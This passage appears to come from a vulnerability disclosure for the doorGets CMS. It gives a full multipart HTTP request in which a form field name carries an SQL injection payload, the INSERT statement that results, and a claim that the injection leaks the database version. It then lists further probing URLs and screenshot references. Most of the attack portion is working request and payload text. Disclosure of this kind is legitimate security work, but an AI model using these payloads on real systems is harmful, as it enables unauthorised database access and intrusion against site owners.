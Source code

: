 121575cac3939554470.39398541
------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_id_user"

7
------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_nom`,`email`,`description`,`date_creation`)/**/VALUES(7,(select@@version),'test@localhost.com','aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa','1554791193');#"

 
------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_nom"

test1
------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_email"

test@localhost.com
------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_description"

aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
------WebKitFormBoundaryaypaF2drDyZAvej4
Content-Disposition: form-data; name="emailing_add_submit"

Save
------WebKitFormBoundaryaypaF2drDyZAvej4--
```
The SQL statement executed by the program is:
```INSERT INTO `_dg_newsletter` (`id_user`,`nom`,`email`,`description`,`date_creation`)/**/VALUES(7,(select@@version),'test@localhost_com','aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa','1554791193');#`,`nom`,`email`,`description`,`date_creation`) VALUES ("7"," ","test1","test@localhost.com","aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa","1554791868");```

Re-request ```http://domain.com/dg-user/?controller=emailing```, you can get the current database version 5.5.53 through SQL injection:

![79.png](./img/79.png)


**[21]**

http://domain.com/doorgets/routers/ajaxRouter.php

![80.png](./img/80.png)

http://domain.com/ajax/index.php?uri=1234%5c

![81.png](./img/81.png)

http://domain.com/ajax/index.php?uri=home/&action=sendForm&controller=survey

![82.png](./img/82.png)

view-source:domain.com/cache/template/index_header.tpl.php

![83.png](./img/83.png)

